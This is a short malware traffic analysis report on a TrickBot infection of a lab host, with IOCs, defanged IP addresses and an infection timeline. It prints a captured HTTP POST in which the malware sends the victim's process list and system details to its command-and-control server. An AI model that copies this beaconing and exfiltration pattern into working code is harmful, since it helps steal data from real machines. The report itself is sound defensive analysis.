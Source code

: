 
## **Executive Summary**:


On 2021-08-19 22:40:36, a user called monica.steele with a hostname DESKTOP-M1TFHB6, was infected with a malware called TrickBot.



## **Details**:

- IP Address : 10.8.19.101
- Mac Address : 00:08:02:1c:47:ae
- HostName : DESKTOP-M1TFHB6
- UserName : monica.steele
- Time of infection : 2021-08-19 22:40:36


## **Indicators of Compromise (IOCs)**:

- Malware-Name : ooiwy.pdf
- MD5 Hash : 4e4ae70b6346eae111e31716dc76bc23
- File Hosting server IP : 185[.]244[.]41[.]29
- C2 : 103[.]148[.]41[.]195



## Analysis

### Stage-1

On Examin the http traffic, we found that the user monica.steele download's a file that look's like a pdf  file : ooiwy.pdf . on downloading the file and examin it, it shows that the file is EXE file executable. After we uploaded the file to virustotal and anyrun, it shows the file behavior as TrickBot malware.


### Stage-2


On continuing of the analysis, it shows on the http packet that the user is actually executed the malware and after that. The malware Gatherd the user IP public address throw "api.ipify.org" then it send's the data back to Cowboy server which is a simple light python http server with the IP of "103[.]148[.]41[.]195", however, the malware gatherd the user data like : proc list, system info( host-name, system-Name etc...) then send back the data to cowboy server with a post requset and the victim hostname as a url and an attachment of the system information.(The packet could be found down below.). However, The malware is targting Active Directory domain's.




POST /rob124/DESKTOP-M1TFHB6_W10019043.0CB9C3AE3FA9B1267DFC20141CDE9D84/90/ HTTP/1.1

Connection: Keep-Alive

Content-Type: multipart/form-data; boundary=------Boundary0005648D

User-Agent: Ghost

Content-Length: 5311

Host: 103.148.41.195:443

  

--------Boundary0005648D

Content-Disposition: form-data; name="proclist"

  

***TASK LIST***

  

[System Process]

System

Registry

smss.exe

csrss.exe

wininit.exe

csrss.exe

winlogon.exe

services.exe

lsass.exe

svchost.exe

fontdrvhost.exe

fontdrvhost.exe

<--SNIP-->

 

--------Boundary0005648D--

  

HTTP/1.1 200 OK

server: Cowboy

date: Thu, 19 Aug 2021 19:45:38 GMT

content-length: 3

Content-Type: text/plain

  

/1/



## reference

- https://www.malware-traffic-analysis.net/2021/08/19/index.html
